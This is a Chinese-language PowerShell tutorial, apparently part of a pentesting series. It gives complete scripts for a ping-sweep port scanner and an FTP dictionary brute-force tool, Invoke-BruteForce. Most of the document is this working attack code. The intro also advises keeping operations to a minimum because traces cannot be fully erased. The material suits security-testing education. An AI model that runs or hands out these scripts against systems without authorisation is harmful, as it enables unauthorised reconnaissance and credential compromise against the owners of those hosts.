

# powershell(5)-端口扫描与服务爆破

## 端口扫描

这里我们就开始了我们的端口扫描器的构建, 这里很多朋友肯定会说, 端口扫描不是有很多已经很成熟的脚本了么为什么还要去学习呢？那么我们首先想一想目前的一些优秀的端口扫描都是Python或者Go语言等进行编写的, 对于我们安全测试人员来说并不是最佳选择。因为对于Windows系统Python之类的环境并不是每一台电脑都有, 但Powershell不同我们不需要进行过多的操作即可进行丰富的操作, 这也是我们作为专业安全人员的基本素养: 尽可能进行少的操作, 因为你无法删除你所有的行踪, 物质守恒定律---没有人能确保自己不留任何痕迹, 那么越少的操作无疑是我们需要思考的。 
端口扫描脚本已经直接放在了下面, 同样大部分的注释等已经写的很清晰, 本脚本涉及到的几个点：

1. 脚本参数的问题的解决, 可以看到我们的参数获取用了CmdletBinding的方法，这样我们可以设置参数的形式就有很多了, 比如我们需要一个参数是否可选，和参数的位置等
2. 主机存活检测使用Ping来检测(ICMP)
3. 端口扫描调用.NET的Socket来进行端口连接，如果连接建立代表端口连接成功

```powershell
function PortScan {
<#
.DESCRIPTION
端口扫描

.PARAMETER StartAddress
Ip开始地址 Range

.PARAMETER EndAddress
Ip结束地址 Range

.PARAMETER GetHost
解析获取主机名 HostName

.PARAMETER ScanPort
端口扫描参数, 若不打开就是主机存活的探测 PortScan

.PARAMETER Ports
需要扫描的端口，默认有: 21,22,23,25,53,80,110,139,143,389,443,445,465,873,993,995,1080,1086,
    1723,1433,1521,2375,3128,3306,3389,3690,5432,5800,5900,6379,7001,7002,7778,8000,8001,
    8080,8081,8089,8161,8888,9000,9001,9060,9200,9300,9080,9090,9999,10051,11211,27017,28017,50030

.PARAMETER TimeOut
TimeOut 默认是10s TimeOut 100

.EXAMPLE
PS > PortScan -StartAddress 172.16.50.1 -EndAddress 172.16.50.254

.EXAMPLE
PS > PortScan -StartAddress 172.16.50.1 -EndAddress 172.16.50.254 -GetHost

.EXAMPLE
PS > PortScan -StartAddress 172.16.50.1 -EndAddress 172.16.50.254 -GetHost -ScanPort

.EXAMPLE
PS > PortScan -StartAddress 172.16.50.1 -EndAddress 172.16.50.254 -GetHost -ScanPort -TimeOut 500

.EXAMPLE
PS > PortScan -StartAddress 172.16.50.1 -EndAddress 172.16.50.254 -GetHost -ScanPort -Port 80

#>
    [CmdletBinding()] Param(
        [parameter(Mandatory = $true, Position = 0)]
        [ValidatePattern("\b\d{1,3}\.\d{1,3}\.\d{1,3}\.\d{1,3}\b")]
        [string]
        $StartAddress,

        [parameter(Mandatory = $true, Position = 1)]
        [ValidatePattern("\b\d{1,3}\.\d{1,3}\.\d{1,3}\.\d{1,3}\b")]
        [string]
        $EndAddress,
        
        [switch]
        $GetHost,

        [switch]
        $ScanPort,

        [int[]]
        $Ports = @(21,22,23,25,53,80,110,139,143,389,443,445,465,873,993,995,1080,1086,1723,1433,1521,2375,3128,3306,3389,3690,5432,5800,5900,6379,7001,7002,7778,8000,8001,8080,8081,8089,8161,8888,9000,9001,9060,9200,9300,9080,9090,9999,10051,11211,27017,28017,50030),
        
        [int]
        $TimeOut = 100
    )  
    Begin {
        # 开始之前先调用Ping组件
        $ping = New-Object System.Net.Networkinformation.Ping
    }
    Process {
        # 四层循环获取解析IP地址
        foreach($a in ($StartAddress.Split(".")[0]..$EndAddress.Split(".")[0])) {
            foreach($b in ($StartAddress.Split(".")[1]..$EndAddress.Split(".")[1])) {
            foreach($c in ($StartAddress.Split(".")[2]..$EndAddress.Split(".")[2])) {
                foreach($d in ($StartAddress.Split(".")[3]..$EndAddress.Split(".")[3])) {
                    # write-progress用于在shell界面显示一个进度条
                    write-progress -activity PingSweep -status "$a.$b.$c.$d" -percentcomplete (($d/($EndAddress.Split(".")[3])) * 100)
                    # 通过Ping命令发送ICMP包探测主机是否存活
                    $pingStatus = $ping.Send("$a.$b.$c.$d",$TimeOut)
                    if($pingStatus.Status -eq "Success") {
                        if($GetHost) {
                            # 本分支主要解决主机名的问题
                            # write-progress用于在shell界面显示一个进度条
                            write-progress -activity GetHost -status "$a.$b.$c.$d" -percentcomplete (($d/($EndAddress.Split(".")[3])) * 100) -Id 1
                            # 获取主机名
                            $getHostEntry = [Net.DNS]::BeginGetHostEntry($pingStatus.Address, $null, $null)
                        }
                        if($ScanPort) {
                            # 定义一个开放的端口数组, 存储开放的端口
                            $openPorts = @()
                            for($i = 1; $i -le $ports.Count;$i++) {
                                $port = $Ports[($i-1)]
                                # write-progress用于在shell界面显示一个进度条
                                write-progress -activity PortScan -status "$a.$b.$c.$d" -percentcomplete (($i/($Ports.Count)) * 100) -Id 2
                                # 定义一个Tcp的客户端
                                $client = New-Object System.Net.Sockets.TcpClient
                                # 开始连接
                                $beginConnect = $client.BeginConnect($pingStatus.Address,$port,$null,$null)
                                if($client.Connected) {
                                    # 加入开放的端口
                                    $openPorts += $port
                                } else {
                                # 等待, 这里用于网络延迟, 防止因为网络原因而没有判断到端口的开放而错失很多机会
                                    Start-Sleep -Milli $TimeOut
                                    if($client.Connected) {
                                        $openPorts += $port
                                    }
                                }
                                $client.Close()
                            }
                        }
                        if($GetHost) {
                            # 获取主机名
                            $hostName = ([Net.DNS]::EndGetHostEntry([IAsyncResult]$getHostEntry)).HostName
                        }
                        # 返回对象-哈希表
                        New-Object PSObject -Property @{
                        IPAddress = "$a.$b.$c.$d";
                        HostName = $hostName;
                        Ports = $openPorts
                        } | Select-Object IPAddress, HostName, Ports
                    }
                }
            }
            }
        }
    }
    End {
        # 其他脚本运行结束代码
    }
}
```

我们开看看一个简单的扫描结果:


那么其他扫描模式可自行测试, 可以看到这种扫描是知识单线程模式, 关于多线程的编程我们放在后面再来研究。

## 服务爆破

那么我们进入到服务爆破的阶段, 那么我们端口扫描之后的一步必然就是进行服务的弱点攻击, 对于一些服务比如21FTP和数据库之类的服务进行爆破是安全测试必经的过程, 那么我们来以FTP服务爆破来举例

```powershell
function Invoke-BruteForce
{
<#

.DESCRIPTION
FTP服务爆破脚本

.PARAMETER Computername
主机名参数

.PARAMETER UserList
用户字典参数

.PARAMETER PasswordList
密码字典参数

.PARAMETER Service
服务名参数

.PARAMETER StopOnSuccess
找到密码时是否退出

.PARAMETER Delay
爆破时间间隔, 默认为0

.EXAMPLE
PS C:\Users\rootclay\Desktop\powershell> FTP-BruteForce -ComputerName localhost -UserList 
	C:\Users\rootclay\Desktop\powershell\dict\username.txt -PasswordList 
	C:\Users\rootclay\Desktop\powershell\dict\pass.txt -Service ftp -verbose

#>
    [CmdletBinding()] Param(
        [Parameter(Mandatory = $true, Position = 0, ValueFromPipeline=$true)]
        [Alias("PSComputerName","CN","MachineName","IP","IPAddress","Identity","Url","Ftp","Domain","DistinguishedName")]
        [String]
        $ComputerName,

        [Parameter(Position = 1, Mandatory = $true)]
        [Alias('Users')]
        [String]
        $UserList,

        [Parameter(Position = 2, Mandatory = $true)]
        [Alias('Passwords')]
        [String]
        $PasswordList,

        [Parameter(Position = 3, Mandatory = $true)] [ValidateSet("FTP")]
        [String]
        $Service = "FTP",

        [Parameter(Position = 4, Mandatory = $false)]
        [Switch]
        $StopOnSuccess,

        [Parameter(Position = 6, Mandatory = $false)]
        [UInt32]
        $Delay = 0
    )
    Begin {
        # 开始之前相关代码
    }

    Process
    {
        # Write-Verbose用于打印详细信息
        Write-Verbose "Starting Brute-Force and Delay is $Delay."
        
        # 获取用户名与密码字典
        $usernames = Get-Content -ErrorAction SilentlyContinue -Path $UserList
        $passwords = Get-Content -ErrorAction SilentlyContinue -Path $PasswordList
        if (!$usernames) { 
            $usernames = $UserList
            Write-Verbose "UserList file does not exist."
            Write-Verbose $usernames
        }
        if (!$passwords) {
            $passwords = $PasswordList
            Write-Verbose "PasswordList file does not exist."
            Write-Verbose $passwords
        }

        # Brute Force FTP
        if ($service -eq "FTP")
        {
            # 机器名的处理：若ftp://开始直接获取名字，若没有直接加上
            if($ComputerName -notMatch "^ftp://")
            {
                $source = "ftp://" + $ComputerName
            }
            else
            {
                $source = $ComputerName
            }
            Write-Output "Brute Forcing FTP on $ComputerName"

            :UsernameLoop foreach ($username in $usernames)
            {
                foreach ($Password in $Passwords)
                {
                    try
                    {   
                        # 调用.net中的FTP库进行连接
                        $ftpRequest = [System.Net.FtpWebRequest]::Create($source)
                        $ftpRequest.Method = [System.Net.WebRequestMethods+Ftp]::ListDirectoryDetails
                        
                        # 通过Verbose输出的信息
                        Write-Verbose "Trying $userName : $password"

                        # 进行认证连接
                        $ftpRequest.Credentials = new-object System.Net.NetworkCredential($userName, $password)
                        
                        # 获取返回信息
                        $result = $ftpRequest.GetResponse()
                        $message = $result.BannerMessage + $result.WelcomeMessage
                        
                        # 打印信息到控制台
                        Write-Output "Match $username : $Password"
                        $success = $true

                        # 判断是否要得到结果立刻退出
                        if ($StopOnSuccess)
                        {
                            break UsernameLoop
                        }
                    }

                    catch
                    {
                        $message = $error[0].ToString()
                        $success = $false
                    }
                    # 延时爆破
                    Start-Sleep -Seconds $Delay
                }
            }
        } 
    }

    End {
        # 其他脚本运行结束代码
    }
}
```
下面来看看爆破的结果:



如果不加-verbose参数显示是非常清爽的:

